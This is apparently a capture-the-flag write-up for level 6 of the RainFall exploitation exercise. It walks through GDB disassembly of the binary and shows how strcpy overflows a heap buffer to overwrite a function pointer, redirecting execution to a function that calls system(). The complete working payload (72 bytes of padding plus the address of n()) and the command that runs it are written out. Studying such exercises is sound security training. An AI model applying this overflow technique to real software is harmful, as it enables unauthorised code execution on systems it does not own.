 ```sh
level6@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
level6@RainFall:~$ ./level6 
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 42
Nope
level6@RainFall:~$ 
```
There is one excutable file **level6**, it take argument but return Nope, without argument its Segmentation fault. \
\
Runt the binary file with GDB.
```sh
(gdb) info functions
...
0x08048454  n
0x08048468  m
0x0804847c  main
...


(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   %ebp
   0x0804847d <+1>:     mov    %esp,%ebp
   0x0804847f <+3>:     and    $0xfffffff0,%esp
   0x08048482 <+6>:     sub    $0x20,%esp
   0x08048485 <+9>:     movl   $0x40,(%esp)
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    %eax,0x1c(%esp)
   0x08048495 <+25>:    movl   $0x4,(%esp)
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    %eax,0x18(%esp)
   0x080484a5 <+41>:    mov    $0x8048468,%edx
   0x080484aa <+46>:    mov    0x18(%esp),%eax
   0x080484ae <+50>:    mov    %edx,(%eax)
   0x080484b0 <+52>:    mov    0xc(%ebp),%eax
   0x080484b3 <+55>:    add    $0x4,%eax
   0x080484b6 <+58>:    mov    (%eax),%eax
   0x080484b8 <+60>:    mov    %eax,%edx
   0x080484ba <+62>:    mov    0x1c(%esp),%eax
   0x080484be <+66>:    mov    %edx,0x4(%esp)
   0x080484c2 <+70>:    mov    %eax,(%esp)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
   0x080484d0 <+84>:    call   *%eax
   0x080484d2 <+86>:    leave  
   0x080484d3 <+87>:    ret    
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave  
   0x08048467 <+19>:    ret    
End of assembler dump.
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   %ebp
   0x08048469 <+1>:     mov    %esp,%ebp
   0x0804846b <+3>:     sub    $0x18,%esp
   0x0804846e <+6>:     movl   $0x80485d1,(%esp)
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave  
   0x0804847b <+19>:    ret    
End of assembler dump.
```
You can see line +41 in main() function,
```sh
(gdb) disas main
Dump of assembler code for function main:
...
   0x080484a5 <+41>:    mov    $0x8048468,%edx
   0x080484aa <+46>:    mov    0x18(%esp),%eax
...
(gdb) x/s 0x8048468
0x8048468 <m>:   "U\211\345\203\354\030\307\004$х\004\b\350\346
...
```
There is evidence of using ```m()``` function by variable. \
Anyway, We will check buffer overflow with strcpy,
```sh
(gdb) r 'aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0a'
Starting program: /home/user/level6/level6 'aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0a'

Program received signal SIGSEGV, Segmentation fault.
0x61346361 in ?? ()
Enter the hex value to find (e.g., 0x63613563): 0x61346361
Little Endian ASCII representation: 'ac4a'
'ac4a' found at offset: 72
```
With our python script, we can easily find offset of overflow. \
Since this code accepts argument not as stdin but as argv, we have to pass our input with shell argument ```$()```. \
So we can run simply ```Some 72 bytes + Start address of n() function```.
```sh
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
level6@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3" + "\x54\x84\x04\x08"' > /tmp/exploit5
level6@RainFall:~$ ./level6 $(cat /tmp/exploit5)
(hidden)
```
level6 passed !